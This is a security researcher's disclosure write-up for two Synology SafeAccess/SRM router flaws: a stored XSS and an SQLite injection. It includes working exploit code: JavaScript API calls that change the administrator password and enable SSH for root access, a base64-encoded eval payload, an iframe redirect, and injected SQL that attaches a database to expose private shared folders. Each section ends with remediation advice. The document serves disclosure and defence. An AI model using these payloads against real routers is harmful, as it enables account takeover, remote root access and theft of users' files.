

# Synology-SA-20:25 : SafeAccess - Multiple Vulnerabilities

Safe Access Version : 1.2.1-0220

SRM Version : 1.2.3-8017 Update 4

Bug Hunter : Thomas FADY

CVE:
- [CVE-2020-27659](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-27659)
- [CVE-2020-27660](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-27660)

Advisory:

- [Synology-SA-20:25](https://www.synology.com/fr-fr/security/advisory/Synology_SA_20_25)

## Timeline

- 01/05/2020: Vendor Disclosure
- 24/11/2020: Initial public release.
- 30/11/2020: Disclosed vulnerability details.

## Summary

The first vulnerability describe in the report is a Stored XSS exploiting multiple output pages. If an attacker exploit this vulnerably, the session of the admin user can be used to execute action on the router like change the admin password and activate the SSH service to take control of the router.

The second vulnerability is an SQLite Injection leading to arbitrary SQLite editing on the system. An attacker can for example modify the fbsharing.db database to expose internal directory and download all file accessible through the File Station.

## Multiple Stored XSS

### Explanation

The XSS occur when a user sends a request to access a website blocked by SafeAccess. The domain is reflected on the activity log and reports of SafeAccess. If the admin user go on one of these vulnerable page, the attacker can use JavaScript to use SRM API and modify the administrator password. Then, the attacker can enable SSH and get remote access to the router as root.

The exploit requires:

- The SafeAccess Package installed

- A profile with a Web filter defined

  

### Exploitation

First, to test the normal behavior, we send a request to ask the administrator the access to a blocked domain.


The domain doesn't need to be in the block list but a profile need to be configured on SafeAccess.

We can see the request in the activity log 


To confirm the XSS, we can use a simple payload to print an alert on the web page.


The content is loaded on the page dynamically, so we use an event based XSS.

```html

```

We can see that the XSS is triggered


For our JS part of the exploit, we need multiple steps:

- Get the admin name
- Edit his password
- Activate SSH

Here is the code to get the admin name :

```js
var xhr = new XMLHttpRequest();
xhr.open("POST", '/webapi/_______________________________________________________entry.cgi', true);
xhr.onreadystatechange = function() { 
    if (this.readyState === XMLHttpRequest.DONE && this.status === 200) {
			var name = JSON.parse(this.response)['data']['result'][0]['data']['users'][0]['name']);
    }
}
xhr.setRequestHeader("X-SYNO-TOKEN",_S("SynoToken"));
xhr.send("stop_when_error=false&compound=%5B%7B%22api%22:%22SYNO.Core.Group.Member%22,%22method%22:%22list%22,%22version%22:1,%22group%22:%22administrators%22%7D%5D&api=SYNO.Entry.Request&method=request&version=1");
```

Here is the code to change the admin password (the new password is "**adminpassword**"):

```js
var xhr = new XMLHttpRequest();
xhr.open("POST", '/webapi/_______________________________________________________entry.cgi', true);
xhr.setRequestHeader("X-SYNO-TOKEN",_S("SynoToken"));
xhr.send("stop_when_error=true&compound=%5B%7B%22api%22%3A%22SYNO.Core.User%22%2C%22method%22%3A%22set%22%2C%22version%22%3A1%2C%22name%22%3A%22admin%22%2C%22password%22%3A%22adminpassword%22%7D%5D&api=SYNO.Entry.Request&method=request&version=1");
```

Here is a code to activate SSH:

```js
var xhr = new XMLHttpRequest();
xhr.open("POST", '/webapi/_______________________________________________________entry.cgi', true);
xhr.setRequestHeader("X-SYNO-TOKEN",_S("SynoToken"));
xhr.send("stop_when_error=false&compound=%5B%7B%22api%22:%22SYNO.Core.Terminal%22,%22method%22:%22set%22,%22version%22:%222%22,%22enable_ssh%22:true,%22ssh_hw_acc_cipher_only%22:false%7D%5D&api=SYNO.Entry.Request&method=request&version=1");
```

Here is the combined code:

```js
var entry_url = "/webapi/_______________________________________________________entry.cgi";
function get_xhr(){
    var x = new XMLHttpRequest();
    x.open("POST",entry_url , true);
    x.setRequestHeader("X-SYNO-TOKEN",_S("SynoToken"));
    return x
}
function send_compound(compound){
  get_xhr().send("stop_when_error=false&compound="+compound+"&api=SYNO.Entry.Request&method=request&version=1");
}
var x = get_xhr();
x.onreadystatechange = function() { 
    if (this.readyState === XMLHttpRequest.DONE && this.status === 200) {
        	var name = JSON.parse(this.response)['data']['result'][0]['data']['users'][0]['name'];
  send_compound("%5B%7B%22api%22%3A%22SYNO.Core.User%22%2C%22method%22%3A%22set%22%2C%22version%22%3A1%2C%22name%22%3A%22"+name+"%22%2C%22password%22%3A%22adminpassword%22%7D%5D");
      send_compound("%5B%7B%22api%22:%22SYNO.Core.Terminal%22,%22method%22:%22set%22,%22version%22:%222%22,%22enable_ssh%22:true,%22ssh_hw_acc_cipher_only%22:false%7D%5D");
    }
}
x.send("stop_when_error=false&compound=%5B%7B%22api%22:%22SYNO.Core.Group.Member%22,%22method%22:%22list%22,%22version%22:1,%22group%22:%22administrators%22%7D%5D&api=SYNO.Entry.Request&method=request&version=1");
```

To send it easily, we minify the JS code and encode it in base64.

The final JS part is :

```json
eval(atob("ZnVuY3Rpb24gZygpe3ZhciBhPW5ldyBYTUxIdHRwUmVxdWVzdDtyZXR1cm4gYS5vcGVuKCdQT1NUJyxlLCEwKSxhLnNldFJlcXVlc3RIZWFkZXIoJ1gtU1lOTy1UT0tFTicsX1MoJ1N5bm9Ub2tlbicpKSxhfWZ1bmN0aW9uIHMoYSl7ZygpLnNlbmQoJ3N0b3Bfd2hlbl9lcnJvcj1mYWxzZSZjb21wb3VuZD0nK2ErJyZhcGk9U1lOTy5FbnRyeS5SZXF1ZXN0Jm1ldGhvZD1yZXF1ZXN0JnZlcnNpb249MScpfXZhciBlPScvd2ViYXBpL19fX19fX19fX19fX19fX19fX19fX19fX19fX19fX19fX19fX19fX19fX19fX19fX19fX19fX19lbnRyeS5jZ2knLHg9ZygpO3gub25yZWFkeXN0YXRlY2hhbmdlPWZ1bmN0aW9uKCl7aWYodGhpcy5yZWFkeVN0YXRlPT09WE1MSHR0cFJlcXVlc3QuRE9ORSYmdGhpcy5zdGF0dXM9PT0yMDApe3ZhciBhPUpTT04ucGFyc2UodGhpcy5yZXNwb25zZSkuZGF0YS5yZXN1bHRbMF0uZGF0YS51c2Vyc1swXS5uYW1lO3MoJyU1QiU3QiUyMmFwaSUyMiUzQSUyMlNZTk8uQ29yZS5Vc2VyJTIyJTJDJTIybWV0aG9kJTIyJTNBJTIyc2V0JTIyJTJDJTIydmVyc2lvbiUyMiUzQTElMkMlMjJuYW1lJTIyJTNBJTIyJythKyclMjIlMkMlMjJwYXNzd29yZCUyMiUzQSUyMmFkbWlucGFzc3dvcmQlMjIlN0QlNUQnKSxzKCclNUIlN0IlMjJhcGklMjI6JTIyU1lOTy5Db3JlLlRlcm1pbmFsJTIyLCUyMm1ldGhvZCUyMjolMjJzZXQlMjIsJTIydmVyc2lvbiUyMjolMjIyJTIyLCUyMmVuYWJsZV9zc2glMjI6dHJ1ZSwlMjJzc2hfaHdfYWNjX2NpcGhlcl9vbmx5JTIyOmZhbHNlJTdEJTVEJyl9fSx4LnNlbmQoJ3N0b3Bfd2hlbl9lcnJvcj1mYWxzZSZjb21wb3VuZD0lNUIlN0IlMjJhcGklMjI6JTIyU1lOTy5Db3JlLkdyb3VwLk1lbWJlciUyMiwlMjJtZXRob2QlMjI6JTIybGlzdCUyMiwlMjJ2ZXJzaW9uJTIyOjEsJTIyZ3JvdXAlMjI6JTIyYWRtaW5pc3RyYXRvcnMlMjIlN0QlNUQmYXBpPVNZTk8uRW50cnkuUmVxdWVzdCZtZXRob2Q9cmVxdWVzdCZ2ZXJzaW9uPTEnKQ=="))
```

We can now send the malicious domain unblock request:


Now, we visit the SafeAccess activity log to trigger the XSS (the Administrator can receive a direct link to accept by email if it is configured):



Finally, we can ssh as root on the router


#### Note

The XSS is also present on activity reports.


If the administrator access the report, the XSS will be triggered


But on this interface, is not possible to get the X-SYNO-TOKEN and thus, use the Synology API.

The workaround is to redirect the user to the application by using a link like this :

[/webman/index.cgi?launchApp=SYNO.SafeAccess.Application&launchParam=fn%3DSYNO.SafeAccess.Activity.TabPanel%26tabname%3Daccess_request](/webman/index.cgi?launchApp=SYNO.SafeAccess.Application&launchParam=fn%3DSYNO.SafeAccess.Activity.TabPanel%26tabname%3Daccess_request)

It's possible with:

- "**window.location.href**" JavaScript function.
- an Iframe (the Iframe will call itself. We need to check if the iframe is not already in an iframe )

A valid JS code can be :

```js
if(window.self == window.top){
var i = document.createElement('iframe');
i.src = "/webman/index.cgi?launchApp=SYNO.SafeAccess.Application&launchParam=fn%3DSYNO.SafeAccess.Activity.TabPanel%26tabname%3Daccess_request";
document.body.appendChild(i);
}
```

### Remediation

To fix this vulnerability, I advise addressing two points:

- Fix the XSS by encode output during the activity log rendering
- Ask the old password to modify the administrator account

## SQLite Injection

### Explanation

The same endpoint as the XSS one is vulnerable to an SQLite Injection. I identify a way to get access to shared folders file by using this injection. I'm searching a way to upload file to be able to trigger my old reported vulnerability : **Unauthenticated RCE with root privileges in DSM and SRM**" . This vulnerability is not fixed on SRM and require only to be able to write on the disk. 

On DSM, the sharing feature allow to define an upload folder but I didn't found this on SRM.

### Exploitation

The domain parameter is not properly handled to protect against SQLite injection. To confirm the vulnerability, we will try to define the SQLite version as domain.


We can see on the activity log interface that the router uses the version 3.27 of SQLite.


SQLite allows to attach a database to modify it directly. I choose the database "**fbsharing.db**" containing sharing folders information.

By default, this file does not exist. To create it , we need to share at least one thing.

A USB device need to be plugged on the router to be able to use the File Station.

To demonstrate the exploitation, we can create two folders:


We share the "**Shared file**" folder and our goal is to get access to "**Super Secret Files**"


To share the "**Super Secret Files**" folder we need to execute three SQL Queries:

```sql
ROLLBACK;
ATTACH DATABASE '' AS sharing ;
INSERT INTO sharing.sharingLinks VALUES("exploits",1024,"/","/usbshare1/",null,0,0,"admin","valid","true",null);
```

We can execute these queries with the SQLite injection:


The response of this request is an error because the SQLite injection occurs two times and works only on the first injection.

The shared folder is correctly added:


Now, we can access to the new shared folder:

http://192.168.1.1:8000/fbdownload/exploits?k=exploits&stdhtml=true


And we can access to the "**Super Secret Files**"


### Remediation

To fix this vulnerability, we need to use prepared statement to execute SQLite queries properly.
